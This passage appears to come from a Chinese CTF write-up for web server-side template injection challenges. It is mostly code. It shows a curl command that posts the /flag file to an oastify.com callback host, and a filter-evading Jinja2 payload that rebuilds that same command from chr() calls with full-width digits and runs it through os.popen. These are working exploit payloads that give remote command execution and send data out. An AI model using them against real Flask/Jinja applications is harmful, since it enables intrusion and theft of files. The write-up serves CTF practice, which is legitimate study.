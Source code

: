 ```
curl -X POST -F xx=@/flag http://hzkw9zxqne0nl7pt55fdwy3co3uuik69.oastify.com
```

![image-20240205155034022](C:\Users\86188\AppData\Roaming\Typora\typora-user-images\image-20240205155034022.png)

## web372(过滤了count)

可以换成length过滤器，这里直接全角数字进行绕过（和上一题一样）

```
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(２４)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set ohs=(dict(o=a,s=a)|join)%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=chr(９９)%2bchr(１１７)%2bchr(１１４)%2bchr(１０８)%2bchr(３２)%2bchr(４５)%2bchr(８８)%2bchr(３２)%2bchr(８０)%2bchr(７９)%2bchr(８３)%2bchr(８４)%2bchr(３２)%2bchr(４５)%2bchr(７０)%2bchr(３２)%2bchr(１２０)%2bchr(１２０)%2bchr(６１)%2bchr(６４)%2bchr(４７)%2bchr(１０２)%2bchr(１０８)%2bchr(９７)%2bchr(１０３)%2bchr(３２)%2bchr(１０４)%2bchr(１１６)%2bchr(１１６)%2bchr(１１２)%2bchr(５８)%2bchr(４７)%2bchr(４７)%2bchr(１０４)%2bchr(１２２)%2bchr(１０７)%2bchr(１１９)%2bchr(５７)%2bchr(１２２)%2bchr(１２０)%2bchr(１１３)%2bchr(１１０)%2bchr(１０１)%2bchr(４８)%2bchr(１１０)%2bchr(１０８)%2bchr(５５)%2bchr(１１２)%2bchr(１１６)%2bchr(５３)%2bchr(５３)%2bchr(１０２)%2bchr(１００)%2bchr(１１９)%2bchr(１２１)%2bchr(５１)%2bchr(９９)%2bchr(１１１)%2bchr(５１)%2bchr(１１７)%2bchr(１１７)%2bchr(１０５)%2bchr(１０７)%2bchr(５４)%2bchr(５７)%2bchr(４６)%2bchr(１１１)%2bchr(９７)%2bchr(１１５)%2bchr(１１６)%2bchr(１０５)%2bchr(１０２)%2bchr(１２１)%2bchr(４６)%2bchr(９９)%2bchr(１１１)%2bchr(１０９)%}
{% if ((lipsum|attr(glo)).get(ohs).popen(cmd))%}
abc
{% endif %}
```

![image-20240205155411673](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240205155411673.png)
